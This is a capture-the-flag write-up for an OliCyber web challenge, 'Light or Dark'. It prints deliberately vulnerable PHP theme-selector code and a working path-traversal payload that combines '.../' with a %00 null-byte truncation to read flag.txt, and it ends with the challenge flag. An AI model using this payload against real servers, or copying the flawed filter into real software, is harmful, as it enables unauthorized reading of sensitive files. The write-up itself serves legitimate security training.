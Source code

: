 ## Challenge Name: Light or Dark
**Category:** Web

**Challenge Description:**

A simple website that lets you choose between light, dark, and… nah, just these two.
PS: PHP version: 4

Website: http://lightdark.challs.olicyber.it

### Approach

The challenge 
```
<?php

if(!isset($_GET["tema"])) $path = "light.css";  // Default
else {
    $path = $_GET["tema"];
    if (preg_match("/..\//", $path)) {  // Non è bene andare in giro per il file system..
        $path = str_replace('../', './' , $path);
        
        // Facciamo un filtro sull'estensione del tema richiesto, giusto per sicurezza c:
        $error = false;
        $arr = explode(".", $path);
        $estensione = $arr[count($arr)-1];

        if($estensione != "css"){
            $error = true;
            $path = substr($path, 0, -3) . "css";
        }
    }
}

$css = "static/css/" . $path;

?>


<html>
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <title>L/D</title>

    <!-- Bootstrap CSS -->
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/css/bootstrap.min.css" integrity="sha384-Vkoo8x4CGsO3+Hhxv8T/Q5PaXtkKtu6ug5TOeNV6gBiFeWPGFN9MuhOf23Q9Ifjh" crossorigin="anonymous">

    <style>
        <?php echo file_get_contents($css); ?>
    </style>

    <!-- Bootstrap JavaScript -->
    <script src="https://code.jquery.com/jquery-3.4.1.slim.min.js" integrity="sha384-J6qa4849blE2+poT4WnyKhv5vZF5SrPo0iEjwBvKU7imGFAV0wwj1yYfoRSJoZ+n" crossorigin="anonymous"></script>
    <script src="https://cdn.jsdelivr.net/npm/popper.js@1.16.0/dist/umd/popper.min.js" integrity="sha384-Q6E9RHvbIyZFJoft+2mJbHaEWldlvI9IOYy5n3zV9zzTtmI3UksdQRVvoxMfooAo" crossorigin="anonymous"></script>
    <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/js/bootstrap.min.js" integrity="sha384-wfSDF2E50Y2D1uUdj0O3uMBJnjuUD4Ih7YwaYd1iqfktj0Uod8GCExl3Og8ifwB6" crossorigin="anonymous"></script>
  </head>

  <body>
    <div class="text-center my-3">
        <h1>Selettore di tema: Light & Dark</h1>
        <p class="pt-3" style="font-size:23;">
            <i>Hai mai sognato di poter cambiare il tema con un semplice click? Finalmente puoi!</i>
        </p>
    </div>

    <div class="row mt-5 w-100">
        <div class="col-2 col-md-4"> </div>
        <div class="col text-center">
            <button class="p-2" onclick="window.location.href='index.php?tema=light.css'">Tema chiaro</button>
        </div>
        <div class="col text-center">
            <button class="p-2" onclick="window.location.href='index.php?tema=dark.css'">Tema scuro</button>
        </div>
        <div class="col-2 col-md-4"> </div>
    </div>

    <div class="error mt-5 text-center">
        <?php if($error) echo "<img src='static/img/zeb.jpg' style='width: 50vw;'/>"; ?>
    </div>

  </body>
</html>
``` 

By looking at the php code i found 2 different steps to bypass:
- Directory Traversal filter
- File extension check

Following there is the solution of this challenge and immediately after there is the explanation of the choices made.
```
http://lightdark.challs.olicyber.it/index.php?tema=.../.../.../.../.../flag.txt%00.css
```

or 

```
view-source:http://lightdark.challs.olicyber.it/index.php?tema=.../.../.../.../.../flag.txt%00.css
```


#### Directory Traversal with .../ and null byte %00

In the PHP script provided, there's a vulnerability in how the $path variable is constructed based on the tema parameter from the URL. The code uses ../ to navigate up one directory level from the static/css/ directory. However, since the code replaces ../ with ./, it effectively nullifies the attempt to traverse directories.

To bypass this check, we can use .../ instead of ../. The PHP script will replace .../ with ./, leaving ../ intact. 


By appending %00 (null byte) at the end of a string in a URL exploits PHP's interpretation of null bytes to truncate the string. PHP treats null bytes as string terminators, effectively ignoring any characters after them.

In this challenge, appending %00.css to the tema parameter ensures that the file extension check in the PHP script fails to recognize the actual file extension. This bypasses the validation and allows an attacker to access files with arbitrary extensions, including sensitive files such as flag.txt.

By combining the use of .../ for directory traversal and %00 for bypassing file extension checks, attackers can effectively exploit the vulnerability and access sensitive files on the server.


**Flag**

```
flag{l1ght_1s_f0r_n00bs_d4rk_1s_f0r_h4ck3rs}    
```
### Reflections
Intresting path traversal challenge.
  

---
<a href="/olicyber-training/main.md" class="btn">Back to home</a>

